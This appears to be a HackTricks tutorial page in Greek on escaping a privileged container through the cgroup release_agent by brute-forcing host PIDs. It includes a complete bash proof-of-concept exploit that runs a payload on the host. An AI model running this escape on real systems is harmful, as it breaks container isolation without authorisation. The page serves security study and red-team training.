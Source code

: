 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

Για περισσότερες λεπτομέρειες **ελέγξτε την ανάρτηση του blog από [https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html](https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html)**. Αυτό είναι απλώς μια περίληψη:

Η τεχνική περιγράφει μια μέθοδο για **την εκτέλεση κώδικα του host από μέσα σε ένα container**, ξεπερνώντας τις προκλήσεις που θέτουν οι ρυθμίσεις του storage-driver που θολώνουν τη διαδρομή του filesystem του container στον host, όπως τα Kata Containers ή συγκεκριμένες ρυθμίσεις `devicemapper`.

Βασικά βήματα:

1. **Εντοπισμός Ταυτοτήτων Διαδικασιών (PIDs):** Χρησιμοποιώντας τον συμβολικό σύνδεσμο `/proc/<pid>/root` στο ψευδο-σύστημα αρχείων Linux, οποιοδήποτε αρχείο εντός του container μπορεί να προσπελαστεί σε σχέση με το filesystem του host. Αυτό παρακάμπτει την ανάγκη να γνωρίζουμε τη διαδρομή του filesystem του container στον host.
2. **PID Bashing:** Χρησιμοποιείται μια προσέγγιση brute force για να αναζητηθούν PIDs στον host. Αυτό γίνεται ελέγχοντας διαδοχικά την παρουσία ενός συγκεκριμένου αρχείου στο `/proc/<pid>/root/<file>`. Όταν βρεθεί το αρχείο, υποδεικνύει ότι η αντίστοιχη PID ανήκει σε μια διαδικασία που εκτελείται μέσα στο στοχευμένο container.
3. **Ενεργοποίηση Εκτέλεσης:** Η μαντεμένη διαδρομή PID γράφεται στο αρχείο `cgroups release_agent`. Αυτή η ενέργεια ενεργοποιεί την εκτέλεση του `release_agent`. Η επιτυχία αυτού του βήματος επιβεβαιώνεται ελέγχοντας τη δημιουργία ενός αρχείου εξόδου.

### Διαδικασία Εκμετάλλευσης

Η διαδικασία εκμετάλλευσης περιλαμβάνει ένα πιο λεπτομερές σύνολο ενεργειών, με στόχο την εκτέλεση ενός payload στον host μαντεύοντας τη σωστή PID μιας διαδικασίας που εκτελείται μέσα στο container. Να πώς εξελίσσεται:

1. **Αρχικοποίηση Περιβάλλοντος:** Ένα script payload (`payload.sh`) προετοιμάζεται στον host και δημιουργείται ένας μοναδικός φάκελος για την παρακολούθηση cgroup.
2. **Προετοιμασία Payload:** Το script payload, το οποίο περιέχει τις εντολές που θα εκτελούνται στον host, γράφεται και καθίσταται εκτελέσιμο.
3. **Ρύθμιση Cgroup:** Το cgroup τοποθετείται και ρυθμίζεται. Η σημαία `notify_on_release` ρυθμίζεται για να διασφαλίσει ότι το payload εκτελείται όταν το cgroup απελευθερωθεί.
4. **Brute Force PID:** Ένας βρόχος επαναλαμβάνει τις πιθανές PIDs, γράφοντας κάθε μαντεμένη PID στο αρχείο `release_agent`. Αυτό ουσιαστικά ορίζει το script payload ως το `release_agent`.
5. **Ενεργοποίηση και Έλεγχος Εκτέλεσης:** Για κάθε PID, το `cgroup.procs` του cgroup γράφεται, ενεργοποιώντας την εκτέλεση του `release_agent` αν η PID είναι σωστή. Ο βρόχος συνεχίζεται μέχρι να βρεθεί η έξοδος του script payload, υποδεικνύοντας επιτυχημένη εκτέλεση.

PoC από την ανάρτηση του blog:
```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
if [ $((${TPID} % 100)) -eq 0 ]
then
echo "Checking pid ${TPID}"
if [ ${TPID} -gt ${MAX_PID} ]
then
echo "Exiting at ${MAX_PID} :-("
exit 1
fi
fi
# Set the release_agent path to the guessed pid
echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
# Trigger execution of the release_agent
sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
